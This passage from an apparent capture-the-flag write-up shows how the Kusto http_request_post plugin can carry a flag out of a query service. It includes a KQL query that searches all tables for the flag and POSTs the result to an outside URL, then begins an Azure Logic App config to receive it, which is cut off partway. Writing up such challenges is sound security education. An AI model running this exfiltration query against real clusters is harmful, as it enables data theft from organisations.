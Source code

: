
We can also view an example of how to use the `http_request_post` plugin:


|Name |	Type| 	Required |	Description|
|--|--|--|--|
|Uri |	string |	✔️ |	The destination URI for the HTTP or HTTPS request.|
|RequestHeaders 	|dynamic ||		A property bag containing HTTP headers to send with the request.|
|Options |	dynamic 	||	A property bag containing additional properties of the request.|
|Content |	string 	|	|The body content to send with the request. The content is encoded in UTF-8 and the media type for the Content-Type attribute is application/json.|

Based on this, we can craft a query to make a POST request to a URL of our choosing, where we can accept the flag as a POST request. We can store the flag in a variable and send it to the URL of our choosing. 

```kql
// search for the flag and store it in the searchResults variable
let searchResults = toscalar(search * | where * startswith 'EPT{' | where * endswith '}' | project flag = dynamic_to_json(pack_all()));
// send the searchResults variable to the URL of our choosing
let uri = 'http://mysupersecret.website/endpoint';
let headers = dynamic({});
let options = dynamic({});
evaluate http_request_post(uri, headers, options , searchResults)
```

The idea with this query is pretty simple, it's the same as we used before with `search` and `where`, but in order to send data via the `http_request_post` plugin we have to store the data in a variable. `http_request_post` also expects the content in the form of a string, so we use `project` the result into a single column we call flag, then we convert all columns into a json object using `pack_all()` before converting the result into a json string using `dynamic_to_json()`. We then use `toscalar` to convert the results into a scalar value, which we store in the `searchResults` variable.

As we know, the `http_request_post` takes four arguments, the URI, headers, options and content. Both `URI` and `content` is set at this point, and we can set the headers and options to empty objects as long as they are dynamic.

So, at this point I decided to commit to the bit of doing things like a caveman and decided, instead of spinning up a webserver to recieve the flag, I'll create a logic app in Azure instead. 

The config for the logic app is quite simple:

```json
{
    "definition": {
        "$schema": "https://schema.management.azure.com/providers/Microsoft.Logic/schemas/2016-06-01/workflowdefinition.json#",
        "contentVersion": "1.0.0.0",
        "triggers": {
            "When_a_HTTP_request_is_received": {
                "type": "Request",
                "kind": "Http"
            }
        },
        "actions": {},
        "outputs": {},
        "parameters": {
            "$connections": {
                "type": "Object",
                "defaultValue": {}
            }
        }
    },
    "parameters": {
        "$connections": {
            "value": {}
```
